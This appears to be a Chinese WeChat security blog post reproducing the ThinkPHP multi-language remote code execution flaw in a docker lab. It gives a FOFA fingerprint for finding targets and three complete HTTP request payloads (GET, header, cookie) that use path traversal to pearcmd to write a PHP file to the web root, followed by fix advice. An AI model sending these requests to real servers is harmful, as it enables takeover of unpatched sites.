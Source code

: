 #  Thinkphp 多语言远程命令执行漏洞复现

原创 安全透视镜 [ 网络安全透视镜 ](javascript:void\(0\);)

**网络安全透视镜** ![]()

微信号 gh_0111d52251cf

功能介绍 安全类文章、资源分享为主，也会不定期分享一些其他IT资源。如果有什么需要的资源可以留言，万一找到了呢

____

___发表于_

收录于合集

# Thinkphp 多语言 RCE复现

## 漏洞描述：

若Thinkphp 程序开启了多语言功能，则可通过 get、header、cookie 等位置传入参数，实现目录穿越+文件包含，通过 pearcmd
文件包含这个 trick 即可实现 RCE。

## 影响范围

Thinkphp，v6.0.1~v6.0.13，v5.0.x，v5.1.x

## 利用条件：

1.多语言开启

2.安装了pear扩展

3.知道pearcmd.php路径

  1. register_argc_argv=on

## fofa指纹：

header="think_lang"

## 漏洞复现：

开启靶机环境

docker run -it -d -p 80:80  vulfocus/thinkphp:6.0.12

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144200.png)

 **Get:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/?index.php+config-create+&lang=../usr/local/lib/php/pearcmd&/<?=phpinfo()?>+/var/www/html/4.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

(6.0未成功，5.0成功)

 **Header:**

  *   *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/1.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closethink-lang:../../../../../../../../usr/local/lib/php/pearcmdCookie: think_lang=zh-cnUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144213.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144216.png)

 **Cookie:**

  *   *   *   *   *   *   *   *   *   * 

    
    
     GET /public/index.php?+config-create+/<?=phpinfo()?>+/var/www/html/3.php HTTP/1.1Host: xxxUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Connection: closeCookie:think_lang=../../../../../../../../usr/local/lib/php/pearcmdUpgrade-Insecure-Requests: 1Pragma: no-cacheCache-Control: no-cache

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144219.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221213144222.png)

## 源码分析：

http://tttang.com/archive/1865/

## 修复建议：

1、若无必要，可关闭多语言功能，可参考文档

https://www.kancloud.cn/manual/thinkphp6_0/1037637

https://static.kancloud.cn/manual/thinkphp5/118132

2、官方已发布6.0.14、5.1.42，建议升级至安全版本。

https://github.com/top-
think/framework/commit/c4acb8b4001b98a0078eda25840d33e295a7f099

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

